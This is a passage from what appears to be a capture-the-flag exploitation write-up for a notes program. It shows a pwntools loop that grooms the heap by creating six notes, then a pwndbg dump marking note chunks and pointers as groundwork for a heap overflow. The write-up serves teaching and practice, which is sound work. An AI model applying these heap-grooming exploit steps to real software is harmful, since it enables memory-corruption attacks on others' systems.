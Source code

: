 Note that we also get `usernamePtr`, which we will need it in a moment, to calculate various
offsets on the heap.

# 2. Prepare the heap

To effectively use the overflow bug, we need to have a predictable, repeatable structure on the heap.
Even more so, as:

*   We can freely edit only *every third* malloc block (note text). 
*   Other allocations will get in the way (mainly: resizing the `notes` array, as we add more)

With a bit of trial and error, seems that creating six notes yields three of them in
consecutive chunks of memory:

```python
for n in range(1,7):
  io.sendlineafter(PROMPT, "c")
  io.sendlineafter("Name: ", NAME(n))
  io.sendlineafter("Note: ", NOTE(n))
```

This results in following heap layout:

```
pwndbg> vis_heap_chunks 99
(...)
0x561387c25430  0x0000000000000000  0x0000000000000021  ........!.......
0x561387c25440  0x004d414e52455355  0x0000000000000000  USERNAM.........    <-- usernamePtr
0x561387c25450  0x0000000000000000  0x0000000000000031  ........1.......
0x561387c25460  0x0000561387c25490  0x0000000000000078  .T...V..x.......    <-- notes[1]
0x561387c25470  0x0000561387c25510  0x0000000000000078  .U...V..x.......
0x561387c25480  0x0000000000000000  0x0000000000000081  ................
0x561387c25490  0x49545f45544f4e3c  0x3e3131315f454c54  <NOTE_TITLE_111>    <-- notes[1]->name
0x561387c254a0  0x49545f45544f4e3c  0x3e3131315f454c54  <NOTE_TITLE_111>
0x561387c254b0  0x49545f45544f4e3c  0x3e3131315f454c54  <NOTE_TITLE_111>
(...)
0x561387c25870  0x0000000000000000  0x0000000000000111  ................
0x561387c25880  0x0000561387c25410  0x0000561387c25460  .T...V..`T...V..    <-- notes
0x561387c25890  0x0000561387c25620  0x0000561387c25750   V...V..PW...V..
0x561387c258a0  0x0000561387c25990  0x0000561387c25ac0  .Y...V...Z...V..
0x561387c258b0  0x0000561387c25bf0  0x0000000000000000  .[...V..........
0x561387c258c0  0x0000000000000000  0x0000000000000000  ................
0x561387c258d0  0x0000000000000000  0x0000000000000000  ................
0x561387c258e0  0x0000000000000000  0x0000000000000000  ................
0x561387c258f0  0x0000000000000000  0x0000000000000000  ................
0x561387c25900  0x0000000000000000  0x0000000000000000  ................
0x561387c25910  0x0000000000000000  0x0000000000000000  ................
0x561387c25920  0x0000000000000000  0x0000000000000000  ................
0x561387c25930  0x0000000000000000  0x0000000000000000  ................
0x561387c25940  0x0000000000000000  0x0000000000000000  ................
0x561387c25950  0x0000000000000000  0x0000000000000000  ................
0x561387c25960  0x0000000000000000  0x0000000000000000  ................
0x561387c25970  0x0000000000000000  0x0000000000000000  ................
0x561387c25980  0x0000000000000000  0x0000000000000031  ........1.......
0x561387c25990  0x0000561387c259c0  0x0000000000000078  .Y...V..x.......    <-- notes[4]
0x561387c259a0  0x0000561387c25a40  0x0000000000000078  @Z...V..x.......
0x561387c259b0  0x0000000000000000  0x0000000000000081  ................
0x561387c259c0  0x49545f45544f4e3c  0x3e3434345f454c54  <NOTE_TITLE_444>    <-- notes [4]->name
0x561387c259d0  0x49545f45544f4e3c  0x3e3434345f454c54  <NOTE_TITLE_444>
0x561387c259e0  0x49545f45544f4e3c  0x3e3434345f454c54  <NOTE_TITLE_444>
0x561387c259f0  0x49545f45544f4e3c  0x3e3434345f454c54  <NOTE_TITLE_444>
0x561387c25a00  0x49545f45544f4e3c  0x3e3434345f454c54  <NOTE_TITLE_444>
0x561387c25a10  0x49545f45544f4e3c  0x3e3434345f454c54  <NOTE_TITLE_444>
0x561387c25a20  0x49545f45544f4e3c  0x3e3434345f454c54  <NOTE_TITLE_444>
0x561387c25a30  0x0000000000000000  0x0000000000000081  ................
```